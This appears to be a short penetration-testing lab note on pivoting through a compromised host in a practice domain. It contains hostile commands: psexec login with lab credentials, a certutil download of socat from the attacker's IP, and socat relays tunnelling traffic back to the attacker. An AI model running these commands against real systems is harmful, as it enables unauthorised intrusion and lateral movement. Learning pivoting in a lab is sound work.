 ```yaml
---
category: Uncategorized
tags: []
---
```

Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

```bash - kali
psexec.py marvel.local/fcastle:Password1@192.168.111.138
```

```command prompt - target
cd C:\Users\fcastle\Documents
```

```command prompt - target
certutil -urlcache -split -f http://192.168.111.133/socatx64.exe
```

```command prompt - target
socatx64.exe tcp-l:8000 tcp:192.168.111.133:443 &
```


#### Local Port Forwarding
Say we wish to target local port 631
```bash - target
socat tcp-listen:9090,fork tcp:127.0.0.1:631 &
```

```bash - kali
nmap -sVC -p 9090 $TARGET
```



































































